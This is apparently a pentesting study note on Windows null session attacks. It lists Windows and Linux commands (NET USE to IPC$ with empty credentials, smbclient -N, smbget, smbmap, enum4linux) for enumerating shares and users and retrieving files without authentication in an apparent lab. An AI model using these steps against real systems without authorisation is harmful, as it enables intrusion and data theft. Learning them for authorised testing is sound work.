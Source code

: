 ```yaml
---
title: Windows Null session attack
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting windows 
---
```

# Windows Null session attack

It’s used to enumerate info (password, system users, system groups. running system processes). A null session attack exploits an authentification vulnerability for Windows Administrative Shares. This lets an attacker connect to a local or remote share without authentification.

## Manually from Windows

1.  **Enumerate File Server services**:    

```cmd
nbtstat -A $ip  

# ELS-WINXP   <00>   UNIQUE   Registered
# <00> tells us ELS-WINXP is a workstation.
# <20> says that the file sharing service is up and running on the machine
# UNIQUE tells us that this compiter must have only one IP address assigned
```

2.  **Enumerate Windows Shares**. Once we spot a machine with the File Server service running, we can enumerate:

```
NET VIEW $ip
```

3.  Verify if a null attack is possible by exploiting the IPC$ administrative share and trying to connect without valid credentials.

```
NET USE \\$ip\IPC$ ‘’ /u:’’
```

This tells Windows to connect to the IPC$ share by using an empty password and a empty username. It only works with IPC$ (not c$).

## Manually from Linux

Using the samba suite: https://www.samba.org/

1.  **Enumerate File Server services**: 

```bash
nmblookup -A $ip
```

2.  Also with the smbclient we can **enumerate the shares** provides by a host:  

```bash
smbclient -L //$ip -N

# -L  Look at what services are available on a target
# $ip Prepend the two slahes
# -N  Force the tool not to ask for a password
```

3.  Connect:

```bash
smbclient \\$ip\sharedfolder -N
```

Be careful, sometimes the shell removes the slashes and you need to escape them.

4.  Once connected you can browse with the smb command line. To see allowed commands: help 
5.  When you know the path of a file and you want to retrieve it:
	- from kali: 
	```bash
	smbget smb://$ip/SharedFolder/flag_1.txt
	```
	- from  smb command line: 
	```smb
	get flag_1.txt
	```

6.  To map users with permissions

```bash
smbmap -H demo.ine.local
```
 
To get an specific file in a connection: get flag.txt

## Tricks

Enumerate users with enum4linux -U demo.ine.local

Enumerate the permissions of users with smbmap -H demo.ine.local

If some users are missing in the permission list, maybe they are accesible, try with:

```
smbclient -L //$ip\<user> -N
```

## More tools

- [Winfo](winfo.md).
- [enum](enum.md).
- [enum4linux](enum4linux.md).
- [SAMRDump](samrdump.md).
